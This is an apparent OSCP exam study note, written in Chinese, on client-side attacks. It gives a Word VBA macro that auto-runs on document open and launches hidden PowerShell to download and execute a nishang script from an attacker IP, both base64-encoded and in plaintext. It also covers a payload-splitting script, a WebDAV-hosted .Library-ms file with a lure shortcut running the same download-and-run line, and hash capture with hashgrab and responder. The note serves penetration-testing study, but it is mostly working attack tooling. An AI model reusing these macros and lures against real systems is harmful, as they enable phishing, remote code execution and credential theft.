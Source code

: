 +++
title = '客户端攻击'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'OSCP笔记'
+++


# 宏

后缀建议为doc或者docm

宏攻击代码：

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
     Str = Str + "powershell.exe -nop -w hidden -e SUVYKE5ldy1PYmplY"
     Str = Str + "3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5"
     Str = Str + "nKGh0dHA6Ly8xOTIuMTY4LjQ1LjI0MC9uaXNoYW5nLnBzMSkKC"
     Str = Str + "g=="

    CreateObject("Wscript.Shell").Run Str
End Sub
```

字符串base64编码内容：
配合nishang:

```
iex(new-object net.webclient).downloadstring("http://192.168.45.240/nishang.ps1")

IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.240/nishang.ps1')

echo 'IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.240/nishang.ps1')
'|base64

```
py脚本分割：
```
str = "powershell.exe -nop -w hidden -e SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKGh0dHA6
Ly8xOTIuMTY4LjQ1LjI0MC9uaXNoYW5nLnBzMSkKCg=="

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

如果base64不行，不如直接明文：

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
     Str = "powershell.exe -nop -w hidden -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.240/nishang.ps1')"

    CreateObject("Wscript.Shell").Run Str
End Sub

```

powershell.exe -nop -noni -w hidden -exec bypass -enc

# 库文件

1、开启webdav服务：

```
安装
pip3 install wsgidav

创建一个文件夹，然后运行：
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

2、创建库文件

文件名：config.Library-ms

修改URL就好：

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.227</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<cr><url>http://192.168.45.227</url></cr>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```


3、在wevdav下面放一个快捷方式

名字随便就好，这里是automatic_configuration，引诱点击即可：

内容为powershell一句话上线：

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197:81/nishang.ps1')
```


# 第二种方式

https://github.com/xct/hashgrab

```
python3 hashgrab.py <ip> <output>

sudo responder -i 192.168.45.197 -I tun0

.lnk文件
```